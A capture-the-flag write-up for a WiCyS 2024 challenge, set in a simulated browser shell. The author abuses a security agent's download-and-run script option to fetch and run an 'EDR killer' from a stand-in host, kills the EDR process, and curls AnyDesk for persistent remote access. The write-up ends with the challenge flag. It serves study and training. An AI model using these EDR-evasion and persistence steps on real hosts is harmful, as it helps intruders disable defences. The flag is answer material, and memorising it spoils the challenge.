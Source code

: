 # O7: Bypass the EDR

## Problem Description
You cashed in your creds and now have initial access to a host in The Lucky Lion's internal network - one step closer to payday!! You better make sure you've got more than one way into this environment in case someone kicks you out - perhaps it would be prudent to download and install some remote management software for future use.

That might be easier said than done, though... you expect The Lucky Lion's security tools might give you trouble. Fortunately, another member of The Mound has written an EDR killer ("f4c3st4b") specific to the EDR you identified earlier. The only issue might be getting it on the host.

## Objectives
- Download AnyDesk on the victim machine

Required tools:
- Web Shell: `https://target-httpd.chals.io/shell/edr.html`
- AnyDesk SIMULATED LINK: `https://anydesk.com.example/downloads/anydesk.bin`
- "f4c3st4b" EDR Killer SIMULATED LINK: `https://github.com.example/the-mound/facestab/releases/download/v4.2.0/facestab`

**Note: The simulated links are not real and do not go anywhere.

## Approach and Solution
Whoo, what a doozy. I struggled a lot with this one, in large because all of the bash commands I was used to using just didn't exist or didn't work the way I expected them to. In this one case, my own competence was my biggest enemy.

First, let's talk about the web shell. It is completely simulated in the browser via JavaScript, which is how this CTF was able to handle hundreds of participants all mucking about on this one problem at the same time. Second, it is *extremely* bare bones. Pro tip: in a new Unix-based environment, always run the help command on everything. *EVERYTHING*. Running a quick `help` command in the shell gives us this:
![shell commands](img/o7-1.png)
Yes, that is every single command we have access to in this shell. All of them. Yep.

To me, what stands out the most immediately is that there are no options for file creation. We have a `mkdir` command, but no `touch` command or anything similar. Running `cat > example.txt` and `echo "sample text" > example.txt` also proved fruitless.
![no file creation](img/o7-2.png)

So, with no file creation, we must turn to the system for other answers. We explore the shell, and come up with several interesting things:
- narsh, located in `/bin`. This is us, the shell that we are in.
- cguard, located in `/usr/bin`
- cguardd (yes there are two), located in `/usr/bin`
- cguard.sentinel, located in `/var/lib`

Running `--help` on each of these turns up one interesting thing for cguard:
![cguard commands](img/o7-3.png)
cguard can be run as a command! More importantly, there is a `--script` option, which can download and run scripts.

Thus, we download facestab with this command:

`cguard --script https://github.com.example/the-mound/facestab/releases/download/v4.2.0/facestab`

...which then downloads the `facestab` file into the `/tmp` directory.

If we `cd` into `tmp` and run `./facestab -h`, we get this:

![facestab commands](img/o7-4.png)

So we now know that the usage of `facestab` relies on PIDs. Recall from the earlier `help` command that we do have access to a `ps` command! Running `ps --help` shows that there is a `-A` option, which we will attach to the ps command. Running `ps -A` gives us this:

![ps results](img/o7-5.png)

From prior knowledge, we know narsh is us (this shell). So that's not the PID we are looking for. Therefore we must be trying to kill PID 10.

But if we go into `/tmp` and run `./facestab -p 10`, we get an `invalid permissions` error. Our permissions aren't high enough!

This is where I got stuck the longest. Here's a short list of things I tried that didn't work:
1) tried to `chmod` literally anything. insufficient permissions.
2) tried to force `cat` to create a file.
3) tried to force `echo` to create a file.
4) tried to write my own script outside of the environment and download that with curl. (curl is completely blocked until we kill the EDR)
5) tried to download and run that script with cguard. (got a "try again" error)
6) tried to make a directory with 777 permissions and create files (didn't work because there is NO FILE CREATION)

...and so on, and so forth.

> A quick note of mild hilarity: I was working on this CTF while I was at Lollapalooza (yes the Chicago music festival). I had gotten to this point Thursday night, and then on Friday, at the festival, I got super bored (due to my friends wanting to wait nearly the entire day for a kpop group and me being unwilling to ditch them). So in lieu of having anything to do for like seven hours straight...I read the inspect page source code for this challenge. Like all of it. And that kind of ended up giving me the answer. So...I guess thank you, insane kpop fans, for inadvertently helping me finish this CTF?

From reading the source code (I will never forget the feeling of trying to do that on my literal phone), I discovered that the key point I was missing was hidden in the wording for `cguard` all along: it will download AND RUN scripts. So all I needed to do was redownload the script and attach the PID argument at the end. I hard refreshed the page to give me a clean environment, and then ran this:

`cguard --script https://github.com.example/the-mound/facestab/releases/download/v4.2.0/facestab -p 10`

and that returns `successfully killed 10`. And when we check, `cguard.sentinel` is gone! We have successfully killed the EDR.

From here, all we have to do is download Anydesk into the environment. There's only one catch: we need to do it in a directory where we have full read/write/execute permissions. Luckily, using `ls -l`, we see that we have `tmp` has 777 permissions.

![ls -l](img/o7-6.png)

So all we do is `cd` into `/tmp` one more time, and run curl:

`curl https://anydesk.com.example/downloads/anydesk.bin`

Once this is downloaded, we get the flag.

![flag found!](img/o7-7.png)

`wicys2024{anydeskanytime}`